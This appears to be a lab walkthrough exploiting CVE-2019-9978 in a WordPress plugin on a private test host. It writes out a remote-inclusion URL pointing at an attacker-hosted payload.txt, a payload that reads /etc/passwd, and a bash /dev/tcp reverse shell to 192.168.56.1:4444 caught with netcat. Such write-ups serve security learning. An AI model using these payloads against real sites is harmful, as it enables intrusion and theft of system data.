





::: page
# CVE 2019-9978 {#cve-2019-9978 .title}

\

This is how the **CVE** works :

1.  Create a Payload File on kali :

add this content : **\<pre\>system(\'cat /etc/passwd\')\</pre\>**

1.  Host it on kali :

1.  Crafting the URL :

When we **read the exploit on exploitdb** and the **github** ref to it :

Its was crafting a url like :

Since we already had a **wp-admin** lets remake the url :
[http://192.168.56.114/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s](http://192.168.56.114/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s)

Now in the script the **%s is replaced by** the **payload.txt** which is
h**osted by our kali webserver** on **port 8080**.

Lets craft the final url :

**<http://192.168.56.114/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.56.1:8080/payload.txt>**

1.  Trigerring the vulnerability :

This works, now we can **alter the payload.txt to tranfer a shell to our
kali** and **catch the shell using netcat**:

New payload : **\<pre\>system(\'bash -c \"bash -i \>&
/dev/tcp/192.168.56.1/4444 0\>&1\"\')\</pre\>**

We got a **shell** :

:::
